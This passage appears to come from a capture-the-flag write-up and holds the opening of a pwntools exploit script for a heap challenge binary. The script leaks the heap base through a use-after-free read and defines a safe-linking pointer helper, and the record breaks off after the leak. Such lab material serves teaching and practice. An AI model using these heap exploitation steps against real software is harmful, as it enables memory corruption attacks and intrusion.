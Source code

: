 ![here](/assets/images/finally.png)

full exp : 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./catastrophe_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

p = process()

def malloc(idx,size,data):
    p.sendlineafter(b'> ',b'1')
    p.sendlineafter(b'> ',f'{idx}'.encode())
    p.sendlineafter(b'> ',f'{size}'.encode())
    p.sendlineafter(b'content: ',data)

def free(idx):
    p.sendlineafter(b'> ',b'2')
    p.sendlineafter(b'> ',f'{idx}'.encode())

def view(idx):
    p.sendlineafter(b'> ',b'3')
    p.sendlineafter(b'> ',f'{idx}'.encode())
def obfuscate(p, adr):
    return p^(adr>>12)


for i in range(7): malloc(i,0x100,b'a')

free(0)
view(0)
heap_base = u64(p.recv(5).ljust(8,b'\x00')) * 0x1000
log.info(f'heap base: {hex(heap_base)}')

malloc(0,0x100,b'a')
```